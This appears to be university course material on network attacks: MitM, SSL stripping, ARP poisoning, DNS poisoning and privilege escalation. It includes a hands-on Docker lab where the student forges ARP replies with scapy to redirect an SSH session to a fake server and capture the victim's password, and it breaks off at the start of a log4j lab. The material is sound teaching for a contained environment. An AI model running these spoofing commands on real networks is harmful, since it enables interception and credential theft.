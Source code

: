 = Attacks (WIP)

== Interception Attacks

Interception attacks rely on the ability to intercept network communications.
This may be due to the nature of the network being used or sometimes other methods may leveraged to better position the attacker.
These attacks generally involve forging fictitious messages, recording transmitted data, or altering the contents of messages while on a network.
This family of attacks places all parts of the CIA triad at risk.

=== MitM

[svgbob, mitm, float=right, width=400]
....
.-----------.                         .------------.
|   User    | <- - - - - X - - - - -> | Web Server |
'-----------'     "Old Connection"    '------------'
     ^                                       ^
     |         .-------------------.         |
     +-------> | Man in the Middle | <-------+
               '-------------------'
                   New Connection
....

A man in the middle attack is a blanket term applied when an attacker is intercepting communication.
A typical attack involves eavesdropping and possibly modifying messages between two parties.
Encryption can be used to mitigate the attack, making it impossible for an attacker to decrypt the messages they are intercepting.
That being said, particular attention must be paid to the handshaking/key exchange protocol to be sure that an attacker does not gain access to the key(s) being used.
What follows is an example of MitM being used to intercept and modify the public key exchange:

[svgbob, mitm-keys, width=500, align=center]
....
.-----.                                                 .-----.
| Bob |                                                 |Alice|
'--+--'                                                 '--+--'
   |    Send me your public key so I can send a secret     |
   |------------------------------------------------------>|
   |                                                       |
   | My public key is WXGZ .------.  My public key is ABCD |
   |<----------------------| MitM |<-----------------------+
   |                       '---+--'                        |
   |"Secret (encrypted w/WXGZ)"|"Secret (encrypted w/ABCD)"|
   |-------------------------->|-------------------------->|
....

In the above example the MitM allows the first message to pass unmolested, but tampers with the exchange of the public key.
By passing it's own public key to Bob, the MitM has to ability to decrypt the messages that Bob sends and can still use Alice's public key to re-encrypt the messages at pass them to her.
You can see how if two public keys are exchanged in this manner it would be possible to set up a MitM attack where despite encryption all messages can be seen.

=== MitB

MitB stands for man in the browser and is typically caused by a trojan installing malware that allows the attacker to intercept/modify communications between the browser and the server.
This can be used to capture data on forms, modify input, or modify the response from the server.
Often the software used in MitB attacks lays dormant until the victim browses to a targeted website.
What follows is an example of how a MitB attack can be used to modify an online banking request to send money:

[plantuml, mitb, svg, width=900, align=center]
....
@startuml
skinparam Shadowing false
skinparam RectangleBackgroundColor White
skinparam RectangleBorderColor White
skinparam defaultTextAlignment center
skinparam componentArrowColor Black

!include <tupadr3/common>
!include <tupadr3/font-awesome/server>
!include <tupadr3/font-awesome/user>
!include <tupadr3/font-awesome/laptop>
!include <tupadr3/font-awesome/chrome>
!include <tupadr3/font-awesome/user_secret>

FA_USER(user, User)
FA_LAPTOP(workstation, Workstation)
FA_CHROME(browser, Browser)
FA_USER_SECRET(attacker, Attacker)
FA_SERVER(server, Web Server)

user -> workstation: malware downloaded to workstation
attacker <--> browser
browser -> workstation: approved $1,000
workstation -> browser: transfer $1,000
browser -> server: transfer $10,000 to Attacker
server -> browser: approved $10,000 to Attacker
@enduml
....

As you can see the attacker ended up with $10,000 and the victim simply thought they authorized a payment of $1,000 to someone else.
These attacks can be difficult to detect because they take place within the browser and are opportunistic.

=== Replay Attacks

This family of attacks typically involves a MitM making a copy of the transmission and _replaying_ it to impersonate the victim.
Logon credentials, simple hashes, and specific commands are sometimes susceptible to this type of attack.
The solution is to use timestamps, nonces, rotating keys, or a counter to make sure commands cannot be executed outside of context.

.One-time Passwords
****
To help mitigate replay attacks, an online banking application may require that client use a one-time password (OTP) when submitting transactions.
An OTP is a frequently changing value that is known to both the client and the server.
Several one-time password schemes exist, most of which make use of a cryptographic hash function with a shared seed between client and server.
Periodically the client and server update to a new hash based on the seed and without the seed it is impossible to know what the next hash will be.
By using an OTP anyone who intercepts the traffic will not be able to perform a replay attack as the password will not be current.
****

=== SSL Circumvention

.MitM preventing HTTPS upgrade and skimming passwords
[svgbob, ssl-mitm, width=500, float=right]
....
.--------.                   .----------.                  .---------.
| Victim |                   | Attacker |                  | "Server"|
'---+----'                   '-----+----'                  '----+----'
    |                              |                            |
    |    "GET http://njit.edu"     |                            |
    |----------------------------->|                            |
    |                              |   "GET http://njit.edu"    |
    |                              |--------------------------->|
    |                              |                            |
    |                              |        "301 Moved"         |
    |                              |<---------------------------|
    |                              |                            |
    |                              |   "GET https://njit.edu"   |
    |                              |--------------------------->|
    |                              |                            |
    |                              |       "200 OK (HTTPS)"     |
    |                              |<---------------------------|
    |        "200 OK (HTTP)"       |                            |
    |<-----------------------------|                            |
    |                              |                            |
    |    "POST http://njit.edu"    |                            |
    |       "username=admin"       |                            |
    |       "password=admin"       |                            |
    |----------------------------->|                            |
    |                              |   "POST https://njit.edu"  |
    |                              |       "username=admin"     |
    |                              |       "password=admin"     |
    |                              |--------------------------->|
    |                              |                            |
    |                              |<---------------------------|
    |                              |                            |
    |<-----------------------------|                            |
....

If you think about the intercepted key exchange given in the above MitM example, a similar attack can allow attackers to view SSL traffic.
The attacker gives the victim a bogus certificate authority (CA) certificate which the victim installs.
This is often accomplished via a trojan.
Then the attacker places themselves in the middle of an uninitiated secure connection.
During the key exchange the attacker creates a custom certificate signed by a bogus CA for the connection between attacker and victim.
The attacker also makes an actual HTTPS connection to the service and proxies data for the victim.
All of the victims data will show up in plaintext for the attacker but the connection will appear to be secure for the victim. 
This is used in the https://www.telerik.com/fiddler[Fiddler] debugging proxy to decrypt HTTPS traffic and is also used in some network appliances that perform deep packet inspection.

Another MitM attack on SSL is simply to maintain or downgrade to an HTTP connection with the victim and proxy data to an actual HTTPS connection with the server.
Most servers will upgrade an insecure connection, but by intercepting that exchange the attacker can continue to monitor the victim's traffic.

== Network Layer Attacks

=== MAC Spoofing/MAC Cloning

Most networks expect that a MAC address will correspond to the unique numbers on a NIC, but it is actually quite easy to change.
Virtual networking necessitates the ability to use a different MAC address and this feature is built into most modern operating systems.
MAC spoofing is when an attacker sets their MAC address to the MAC address of another machine on the network in an effort to initiate an attack.
For example, them may set themselves up as a gateway to launch a MitM attack.

=== MAC Flooding

Switches are tasked with keeping track of which MAC addresses correspond to which ports on the switch.
They use this to make sure that traffic is only routed where it needs to go.
Given that MAC addresses can be changed, an attacker could flood a switch with packets from many different MAC addresses and possibly overflow the MAC-port routing table.
Some switches may default to hub-like functionality and send frames to all ports in an effort to keep traffic flowing.
This then allows an attacker to capture traffic from other machines on the network.

=== ARP Poisoning

[.float-group]
--

image::arp.svg[width=500, float=left]

An attacker may also use ARP packets to impersonate another machine on the network, such as a gateway router.
By repeatedly sending out ARP packets, _gratuitous arp_, redirecting packets bound for the gateway's IP to the attackers MAC address an attacker can set up a MitM scenario.
This is particularly difficult because depending on the TTL of the ARP cache it may take up to 20 minutes for normal network operations to resume.

--

== Internet Layer Attacks

=== IP Spoofing

[.float-group]
--

[svgbob, ip-header, width=500, float=left]
....
|<-------------------------- 32 bits --------------------------->|
+------+-------+----------------+--------------------------------+
| Vers |  IHL  |      TOS       |          Total Length          |
+------+-------+----------------+-------+------------------------+
|       Identification          | Flags |    Fragment Offset     |
+--------------+----------------+-------+------------------------+
| Time to Live |     Protocol   |        Header Checksum         |
+--------------+----------------+--------------------------------+
|   Totally legitimate source address, I'm not lying I swear     |
+----------------------------------------------------------------+
|           Victim, err I mean Destination address               |
+----------------------------------------------------------------+
|                                                                |
                             Options                               
|                       (up to 40 bytes)                         |
+----------------------------------------------------------------+
|                                                                |
                              Data
|                     (up to 65536 bytes)                        |
+----------------------------------------------------------------+
....

Unfortunately Internet Protocol (IP) was not designed with security in mind.
This means that by default any IP address can be put in the packet header and the packet will still be forwarded to the network.
This leads to issues where an IP can be _spoofed_ and malicious packets sent out.
At this layer there really aren't any good solutions to this problem.
This means that the sources of packets often need to be authenticated in higher layers and protocols must take into account the fact that the IP layer is fundamentally insecure.

--

.Smurf Attack
****

[link=https://commons.wikimedia.org/wiki/File:Ataque_Smurf_DDoS.png]
image::smurf.png[width=600, align=center]

The Smurf attack is a great example of how spoofed IP addresses can lead to major problems. 
The Smurf attack is an early type of Distributed Denial of Service attack.
An attacker would create an ICMP echo request with the victims IP address as the source address.
This echo request would be directed at a broadcast IP address for a subnet.
Many of the clients on the subnet would respond the echo request, flooding the victim with responses.
The asymmetric nature of this attack, a single packet prompting possibly hundreds of responses, made it particularly hard to deal with.
Using a Smurf attack, an attacker could keep a victim _pinned down_ with minimal bandwidth required on their end.
Modern clients no longer respond to ICMP echo requests directed at the broadcast, mitigating the risk of this kind of attack.
****

== Name Resolution Attacks

=== DNS Cache Poisoning

A DNS resolved can be tricked into caching incorrect information and serving it to other clients.
In this scenario an attacker assumes the role of the authoritative DNS server by responding to a DNS query with a forged source IP.
One of the reasons this is possible is because DNS query responses are often single, unauthenticated packets.
Once the server has the invalid DNS cache entry it will continue to direct users to the incorrect IP address for the TTL of the entry.
https://cloud.google.com/dns/docs/dnssec[DNSSEC] can be used to mitigate these attacks by forcing authentication on DNS answers. 

=== LLMNR Hijacking

In this scenario an attacker responds to a LLMNR broadcast and impersonates an authentication server.
The unexpecting victim fills in their credentials, which are promptly stolen.
This attack can be mitigated by disabling LLMNR on the network.

== Outcomes

=== Remote Code Execution (RCE)

One of the most dangerous outcomes of an attack is Remote or Arbitrary Code Execution.
RCE gives the attacker the ability to execute any instructions they want on the compromised machine.
Often the attacker will start a shell with administrative privileges so they can do whatever they want.
Imagine SSHing into a remote Linux machine and elevating your privileges to root.
This is essentially the type of power that can result from RCE.
Attackers may also use the RCE to attack the availability of a computing resource by causing a program to terminate.
In this situation the RCE is being used as part of a denial of service (DoS) attack.

=== Privilege Escalation

[quote, Judy B. Haxor]
There is no elevator to root, you have to use an exploit.

[svgbob, escalation, width=200, float=left]
....
            ^
           /    +------+
          /     |      |
         /      |      |
        /       |Super |
       /        |Admin |
      /  +------+      |
     /   |      |      |
    /    |      |      |
   /     |Admin |      |
  /+-----+      |      |
 / |User |      |      |
/  +-----+------+------+
....

Privilege escalation involves gaining access to protected resources through unintended means.
An example would be https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034[CVE-2021-4034], a local privilege escalation vulnerability recently discovered in the Linux `pkexec` command.
`pkexec` runs with elevated privileges and does not safely parse command line arguments.
As such it can be exploited to give a regular user a root shell.
This would be an example of local, vertical privilege escalation.

Privilege escalation is typically broken into two categories: horizontal and vertical.
Horizontal privilege escalation gives similar access to resources, ie. moving from one user account to another.
Vertical privilege escalation gives higher level access, ie. moving from a user account to an admin account.
The five main ways privilege escalation is achieved are credential exploitation, vulnerabilities/exploits, misconfigurations, malware, and social engineering.

=== Denial of Service (DoS)

== Lab: MitM with Scapy

In this lab we will use a fake SSH server, https://github.com/jaksi/sshesame[sshesame], and an interactive packet manipulation program, https://scapy.net/[scapy], to disrupt an ongoing SSH session between victim and server, position ourself in the middle of the traffic, and capture the username and password victim is using.

.IP Addresses Used
[width=50%, float=right]
|===
|Name|IP Address

|server|172.20.0.5
|victim|172.20.0.6
|attacker|172.20.0.7

|===

For this lab our IP addresses are configured statically and are known to the attacker.
It is also assumed that the attacker is on the local network.
Lastly victim has been poorly configured to ignore changes to the host key.
This is not entirely unreasonable as many users just ignore the warnings and clear out the known_hosts file when prompted anyway.

Start by downloading the https://github.com/rxt1077/it230/raw/main/labs/scapy.zip[scapy.zip] file which contains the Docker Compose configuration we will be using.
Uncompress it to a directory where you have write access.
This lab will require us to use three terminal windows/tabs: one for the `docker-compose up` command which will show the output of everything running in the background, one for the victim which will show an SSH session with the server, and one for the attacker which we will use to make the attack.

[svgbob, scapy, width=800, align=center]
....
          "docker-compose up"                            "victim" 
.-------------------------------------.   .-------------------------------------.
|                                 - X |   |                                 - X |
+-------------------------------------+   +-------------------------------------+
|                                     |   |                                     |
| "$ docker-compose up"               |   | "$ ssh server"                      |
|                                     |   |                                     |
|                                     |   |                                     |
|                                     |   |                                     |
'-------------------------------------'   '-------------------------------------'

                                  "attacker"
                    .-------------------------------------.
                    |                                 - X |
                    +-------------------------------------+
                    |                                     |
                    | "$ scapy"                           |
                    | ">>>"                               |
                    |                                     |
                    |                                     |
                    '-------------------------------------'
....

Open three terminals and `cd` into the directory where you uncompressed the lab zip file in each of them.
There should be a `docker-compose.yml` file and `server`, `victim`, and `attacker` directories in the directory you are in.

In the first terminal run the `docker-compose up` command to build the images and run the containers:

.docker-compose up
[source, text]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose up
Creating network "scapy_testnet" with the default driver
Creating scapy_server_1   ... done
Creating scapy_victim_1   ... done
Creating scapy_attacker_1 ... done
Attaching to scapy_victim_1, scapy_server_1, scapy_attacker_1
server_1    | > Starting SSHD
server_1    | >> Generating new host keys
scapy_victim_1 exited with code 0
attacker_1  | INFO 2021/10/07 13:56:45 No host keys configured, using keys at "/root/.local/share/sshesame"
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_rsa_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ecdsa_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ed25519_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Listening on [::]:22 <1>
server_1    | ssh-keygen: generating new host keys: RSA DSA ECDSA ED25519
server_1    | >>> Fingerprints for dsa host key
server_1    | 1024 MD5:a5:e6:e9:38:d2:2e:88:fd:f0:aa:a8:05:07:35:5f:18 root@a010fe3c2f3c (DSA)
server_1    | 1024 SHA256:NM7DONpt1doZp4e6WV+6WVVr+KUrh9luUSRcAhnzdyw root@a010fe3c2f3c (DSA)
server_1    | 1024 SHA512:LHfFdSk1XiAKQArH0CW+RkaKv5GgovPCH7UIQ+P4T2LbgGpCBP5aGA1V3oriYbTZWuS9TlUgDbEfTBq19AV/cA root@a010fe3c2f3c (DSA)
server_1    | >>> Fingerprints for rsa host key
server_1    | 3072 MD5:74:44:b6:a2:74:b9:7e:1b:ba:3d:27:b8:19:3a:48:df root@a010fe3c2f3c (RSA)
server_1    | 3072 SHA256:mubm9mLNrdNDk5fyj0dghDBIbbwcVKXo23Qdv61/S/c root@a010fe3c2f3c (RSA)
server_1    | 3072 SHA512:JFQhS6trY7sNqRSwZ+t0uyBb5ddNh9qSLtBrMaa5G7xWzKHpxCuKBSDbvLk4W9JKeQftTU4293UDV9vqCcf/6w root@a010fe3c2f3c (RSA)
server_1    | >>> Fingerprints for ecdsa host key
server_1    | 256 MD5:15:75:5f:9b:72:7c:f0:13:ea:0d:b4:47:b7:62:69:63 root@a010fe3c2f3c (ECDSA)
server_1    | 256 SHA256:4p/Afp/8C2tHn7AePdS7OHCgPxfBamdaLIUg4IJ7xx4 root@a010fe3c2f3c (ECDSA)
server_1    | 256 SHA512:NnbevqBXFkGQWIirdFsLPnX85q7q/1Y7E4i+BLHLqE3cg2aqkduBJsssyr9+G7bSvq7txvjl9SRmyRAzuDT7DQ root@a010fe3c2f3c (ECDSA)
server_1    | >>> Fingerprints for ed25519 host key
server_1    | 256 MD5:ad:00:61:26:4d:a0:07:be:6b:8e:91:bd:f0:65:e6:14 root@a010fe3c2f3c (ED25519)
server_1    | 256 SHA256:Vl7jQulDsONglP1xbSN+J8nSfCaIER40rHhgy7z/BYg root@a010fe3c2f3c (ED25519)
server_1    | 256 SHA512:WkmvOWe6oaZ/qE1ZiA0rZAjn9H+hCDxI8NHpsjRNCalK/CgVV9+VhkzHgRTKfKTqQeE0y/Zz2GaEJGv/sapCHg root@a010fe3c2f3c (ED25519)
server_1    | WARNING: No SSH authorized_keys found!
server_1    | >> Unlocking root account
server_1    | WARNING: password authentication enabled.
server_1    | WARNING: password authentication for root user enabled.
server_1    | >> Running: /etc/entrypoint.d/changepw.sh
server_1    | Running /usr/sbin/sshd -D -e -f /etc/ssh/sshd_config
server_1    | Server listening on 0.0.0.0 port 22. <2>
server_1    | Server listening on :: port 22.
----
<1> Notice that attacker has a fake SSH server running in the background
<2> Notice that server has a legitimate SSH server running in the background

In the second terminal run `docker-compose run victim bash` and then from the prompt we'll SSH to server using the password "password":

.victim
[source, text]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose run victim bash
Creating scapy_victim_run ... done
bash-5.0# ssh server
Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.
root@server's password: <1>
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment.
Leave this connection open while you experiment with scapy from 'attacker'.
bf9ebe42a108:~#
----
<1> The password is "password"

In the third terminal we'll start by _executing_ (recall that at this point it's already running sshesame in the background) a BASH shell on attacker and configuring it to accept packets not only for its own IP address, but also for the server's IP address.
Once traffic is routed to us, this will allow attacker to also respond to packets destined for 172.20.0.5.

.attacker
[source, console]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose exec attacker bash
root@5195de3d330c:/# ip addr add 172.20.0.5 dev eth0
root@5195de3d330c:/# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
347: eth0@if348: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:07 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.20.0.7/24 brd 172.20.0.255 scope global eth0 <1>
       valid_lft forever preferred_lft forever
    inet 172.20.0.5/32 scope global eth0 <2>
       valid_lft forever preferred_lft forever
----
<1> This is the IP we started with
<2> This is an additional IP that attacker believes it has

Now that the attacker system is configured, we'll start up `scapy` interactively:

.attacker
[source, text]
----
root@5195de3d330c:/# scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.

                     aSPY//YASa
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.5
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | To craft a packet, you have to be a
       scccccp///pSP///p          p//Y   | packet, and learn how to swim in
      sY/////////y  caa           S//P   | the wires and in the waves.
       cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme
        sY/PsY////YCc          aC//Yp    |
         sc  sccaCY//PCypaapyCP//YSs
                  spCPY//////YPSps
                       ccaacs
>>>
----

You'll notice that scapy's prompt is >>>, just like python because it _is_ python.
Since we're working in python, let's make our lives easier by defining a few simple variables:

.attacker
[source, text]
----
>>> server_ip = "172.20.0.5" <1>
>>> victim_ip = "172.20.0.6"
----
<1> IPv4 addresses are strings in scapy

Now let's see how scapy allows us to build packets.
We'll make an Ethernet frame, with an IP packet inside it, with an ICMP echo request in that, with the data being set to our name:

.attacker
[source, text]
----
>>> ping = Ether()/IP(dst=server_ip)/ICMP()/"Ryan Tolboom" <1>
>>> ping.show() <2>
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:05
  src       = 02:42:ac:14:00:07
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     =
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = None
     src       = 172.20.0.7
     dst       = 172.20.0.5
     \options   \
###[ ICMP ]###
        type      = echo-request
        code      = 0
        chksum    = None
        id        = 0x0
        seq       = 0x0
        unused    = ''
###[ Raw ]###
           load      = 'Ryan Tolboom'

>>> result = srp1(ping) <3>
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
>>> result.show()
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:07
  src       = 02:42:ac:14:00:05
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 40
     id        = 62086
     flags     =
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = 0x301a
     src       = 172.20.0.5
     dst       = 172.20.0.7
     \options   \
###[ ICMP ]###
        type      = echo-reply
        code      = 0
        chksum    = 0xea7a
        id        = 0x0
        seq       = 0x0
        unused    = ''
###[ Raw ]###
           load      = 'Ryan Tolboom'

>>> server_mac = result[0][0].src
>>> server_mac
'02:42:ac:14:00:05'
----
<1> Scapy uses the '/' operator to nest protocols.
    This is my name in an ICMP packet, in an IP packet, in an Ethernet frame.
    Be sure you use your own name!
<2> The `show()` command prints out packets in detail
<3> The `srp1()` function sends and receives _one_ packet at Layer 2

Notice how we use this to capture the server's MAC address and save it in the `server_mac` variable.

[IMPORTANT.deliverable]
====
Take a screenshot of your scapy session at this point showing that you completed an ICMP echo request/response with your name in it.
====

We can also determine MAC addresses at Layer 2 with an ARP "who-has" request.
Let's craft and send a broadcast ethernet frame with an ARP "who-has" request for the victims's IP address.
The result will tell use what the victim's MAC address is:

.attacker
[source, text]
----
>>> whohas = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=victim_ip)
>>> result = srp1(whohas)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> result.show()
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:07
  src       = 02:42:ac:14:00:06 <1>
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = is-at
     hwsrc     = 02:42:ac:14:00:06
     psrc      = 172.20.0.6
     hwdst     = 02:42:ac:14:00:07
     pdst      = 172.20.0.7

>>> victim_mac = result[0].src
----
<1> This is my MAC address of victim, but yours may be different!

This is how an ARP exchange is supposed to work.
We broadcast out asking what MAC we should use for a certain IP and we get a response _from the person who legitimately has that MAC and IP_.

We have everything we need to create an ARP packet telling the victim to send traffic to us when they are trying to access servers IP:

.attacker
[source, text]
----
>>> victim_ip, victim_mac, server_ip, server_mac
('172.20.0.6', '02:42:ac:14:00:06', '172.20.0.5', '02:42:ac:14:00:05')
----

Now let's make and view an evil ARP packet:

.attacker
[source, text]
----
>>> bad_arp = ARP(op=2, pdst=victim_ip, psrc=server_ip, hwdst=victim_mac)
>>> bad_arp
<ARP  op=is-at psrc=172.20.0.5 hwdst=02:42:ac:14:00:06 pdst=172.20.0.6 |>
----

This packet posits itself as coming from the server, it is aimed at the victim in both IP and MAC, but the MAC address that will be used to send it is ours (by default, we don't specify with `hwsrc`).
This means the victim will update their ARP cache such that frames destined for server go to attacker.
This effectively reroutes all layer 2 traffic that was going to the server from the victim.

Go ahead an send that ARP packet:

.attacker
[source, text]
----
>>> send(bad_arp)
.
Sent 1 packets.
----

Now go back to the victim terminal with the SSH connection to server and try typing something.
As soon as SSH has to send data, you will get a broken pipe error and the connection will drop.
Faced with such a problem, what do you think most users will do?
Probably try to reconnect, let's try that too.
Remember the password is "password".

.victim
[source, text]
----
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment.
Leave this connection open while you experiment with scapy from 'attacker'.
bf9ebe42a108:~# client_loop: send disconnect: Broken pipe <1>
bash-5.0# ssh server
Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.
root@server's password:
#
----
<1> This happened when they tried to type something right after we sent the malicious ARP

Wait, that prompt looks a little different and where's the message about staying logged in?
It turns out the victim actually signed into our fake SSH server and their username and password were logged!
Take a look at the output from the terminal running `docker-compose up`, you'll see the credentials entered:

.docker-compose up terminal
[source, text]
----
attacker_1  | 2021/10/07 01:21:41 [172.20.0.6:60252] authentication for user "root" with password "password" accepted
----

[IMPORTANT.deliverable]
====

[qanda]
How would you create an ARP packet in scapy to reverse the change you made previously and fix the route?::
    {empty}
Would using keys instead of passwords help prevent this kind of attack? Why or why not?::
    {empty}
How would https://www.ssh.com/academy/ssh/host-key[managing host keys correctly] prevent this kind of attack?::
    {empty}

====

To stop the running containers, you can type Ctrl-C in the terminal running `docker-compose up`, exit out of the victim, and exit out of the attacker.

== Lab: Exploiting log4j

In this lab we will examine the log4j vulnerability, https://nvd.nist.gov/vuln/detail/CVE-2021-44228[CVE-2021-44228].
This vulnerability takes advantage of a flaw in a common logging library used by many Java applications, including Apache, neo4j, Steam, iCloud, and Minecraft. 
Any attacker that can cause a message to be logged can use the Java Naming and Directory Interface (JNDI) and cause the target to reach out to another server, LDAP in our example, and load a remote Java class file.
This file can contain any code that the attacker wishes to inject into the server process.

[IMPORTANT.deliverable]
====
